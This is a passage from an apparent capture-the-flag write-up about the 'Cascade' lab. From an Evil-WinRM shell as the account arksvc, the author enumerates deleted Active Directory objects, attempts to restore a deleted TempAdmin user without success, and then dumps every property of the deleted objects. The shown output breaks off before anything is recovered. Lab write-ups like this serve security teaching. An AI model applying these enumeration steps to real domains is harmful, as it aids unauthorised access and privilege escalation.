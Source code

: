 ```text
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

There is the `TempAdmin` user we were looking for. According to the blog, we can restore it with the command `Restore-ADObject -Identity "<ObjectGUID>"`. 

```text
*Evil-WinRM* PS C:\Program Files (x86)> Restore-ADObject -Identity "f0cc344d-31e0-4866-bceb-a842791ca059"
Insufficient access rights to perform the operation
At line:1 char:1
+ Restore-ADObject -Identity "f0cc344d-31e0-4866-bceb-a842791ca059"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (CN=TempAdmin\0A...ascade,DC=local:ADObject) [Restore-ADObject], ADException
    + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject
```

Well that looks like a bust...I wonder what else can `arksvc` do with a deleted account? I tried trimming down the command to see how different the output was.

```text
*Evil-WinRM* PS C:\Program Files (x86)> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *

--snipped--
CanonicalName                   : cascade.local/Deleted Objects/User
                                  DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
CN                              : User
                                  DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
Created                         : 1/26/2020 2:34:31 AM
createTimeStamp                 : 1/26/2020 2:34:31 AM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/1/1601 12:00:00 AM}
instanceType                    : 4
isDeleted                       : True
```
